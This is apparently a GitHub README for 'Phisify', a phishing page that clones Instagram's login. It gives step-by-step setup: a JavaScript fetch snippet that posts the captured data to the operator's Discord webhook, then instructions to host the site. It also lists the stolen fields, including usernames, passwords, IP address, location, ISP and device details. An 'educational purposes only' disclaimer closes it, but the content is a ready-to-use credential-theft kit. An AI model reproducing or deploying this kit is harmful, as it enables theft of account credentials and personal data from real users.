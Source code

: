 ![image](https://github.com/user-attachments/assets/9fd1268f-8067-4547-88c5-0cc8f0fa36d2)
# Phisify
Instagram clone phishing page with discord integration to fetch information and log them through discord webhooks.
# Setup
- Download this repo and extact the zip file
- After that edit the `script.js` file
  ```js
    try {
        const response = await fetch('YOUR_DISCORD_WEBHOOK_URL', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({
                embeds: [embed]
            })
        });
- Replace `YOUR_DISCORD_WEBHOOK_URL` with your discord `WEBHOOK_URL` to log all the phising data.
- After this, host your website and you're good to go! :D

# Logs The Following Data
- Username/Email
- Password
- Browser ( Name / Version )
- Operating System
- Device
- Screen
- IP Location
- IP Address
- ISP Information
- Language ( Browser )
- Platform
# Contact Me:
- **Instagram:** [volksgeistt](https://instagram.com/volksgeistt)
- **Web:** [volksgeistt.xyz](https://volksgeistt.xyz)
# ⚠️ This Repository is made for educational purposes only. The author is not responsible for any harm of future acts.
